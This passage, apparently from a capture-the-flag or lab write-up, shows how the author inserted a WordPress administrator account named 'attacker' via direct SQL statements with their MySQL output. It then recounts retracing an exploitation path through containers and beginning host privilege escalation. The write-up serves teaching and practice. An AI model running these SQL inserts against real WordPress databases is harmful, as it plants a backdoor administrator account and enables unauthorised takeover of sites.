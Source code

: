 {{< highlight markdown >}}
root@kali:~# cat wordpress-add-admin-user.sql
INSERT INTO `wordpress`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('2', 'attacker', '$P$BQz2Dd0FIn7hf90kXbo2G2uwiMCgTH.', 'Real Mature', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Real Mature');
 
INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '2', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
 
 
INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '2', 'wp_user_level', '10');

mysql> INSERT INTO `wordpress`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('2', 'attacker', '$P$BQz2Dd0FIn7hf90kXbo2G2uwiMCgTH.', 'Real Mature', 'test@yourdomain.com', 'http://www.test.com/', '2011-06-07 00:00:00', '', '0', 'Real Mature');
Query OK, 1 row affected (0.01 sec)

mysql> INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '2', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
Query OK, 1 row affected (0.01 sec)

mysql> INSERT INTO `wordpress`.`wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '2', 'wp_user_level', '10');
Query OK, 1 row affected (0.00 sec)
{{< / highlight >}}

{{< figure src="/content/images/2019/04/Screenshot-from-2019-04-22-20-50-31.png" >}}

Once I logged in as our new admin user, I could see my previous attempts to post comments stuck, awaiting moderation.

## Take a Step Back / Retrace Steps

With the access to all the containers, and wordpress, we could easily execute the CSRF exploit we found with wpscan, but we would gain nothing. Perhaps the intended way in wasn't CSRF, but the uploads route; again this would gain us nothing. The ssh creds were in plain text on the ubuntu container, which was connected to the wordpress container. Perhaps the intended route was to exploit wordpress via sqlmap to get CSRF capability, then use that RCE to get access to wordpress, then pivot to the ubuntu container, where we would find the hosts's SSH creds in plain text. It was too late for all that. Where do we go now?

## Get Root

We found some (probably false) flags and a lot of hints. Remember this one?

{{< highlight markdown >}}
root@252fa8cb1646:/# cat /home/hint 
Startup Script?
root@252fa8cb1646:/#
{{< / highlight >}}

I decided to poke at the startup scripts in the containers, which is how I discovered ubuntu and wordpress were connected. We could easily edit the startup scripts in the containers, but again we gain nothing. I started looking at startup scripts on the host itself and found a bunch with `docker exec $something`. I decided to keep thinking about abusing docker. I tried some things. Some were dumb, many were pointless. I finally started looking back at regular old privesc on the host itself. I tried a kernel exploit, and it failed. I looked at SUID binaries again, and that's when I realized something that had been staring me in the face for a while.

